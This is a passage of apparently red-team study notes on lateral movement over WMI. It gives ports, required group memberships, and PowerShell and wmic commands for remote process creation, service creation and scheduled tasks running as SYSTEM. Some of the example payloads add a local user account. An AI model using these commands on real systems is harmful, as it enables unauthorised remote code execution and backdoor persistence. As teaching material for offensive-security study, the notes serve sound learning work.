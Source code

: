 - **Required Group Memberships:** Administrators

Send a WMI request to the Win32_Process class to spawn the process under the session we created before:

```powershell
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
```

`wmic.exe /user:<username> /password:<password> /node:<target> process call create "cmd.exe /c calc.exe"` - We can use this from the command prompt from legacy system for the same result.

##### Creating Services Remotely with WMI

- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators

Create services with WMI trough Powershell:

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "<service name>";
DisplayName = "<name>";
PathName = "net user <username> <password> /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

`$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE '<service name>'"` - Get a handle on the service.
`Invoke-CimMethod -InputObject $Service -MethodName StartService` - Start the service.
`Invoke-CimMethod -InputObject $Service -MethodName StopService` - Stop the service.
`Invoke-CimMethod -InputObject $Service -MethodName Delete` - Delete the service.

##### Creating Scheduled Tasks Remotely with WMI

- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators

Create and execute scheduled tasks using default cmdlets:

```powershell
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user <username> <password> /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "<task name>"
Start-ScheduledTask -CimSession $Session -TaskName "<task name>"
```
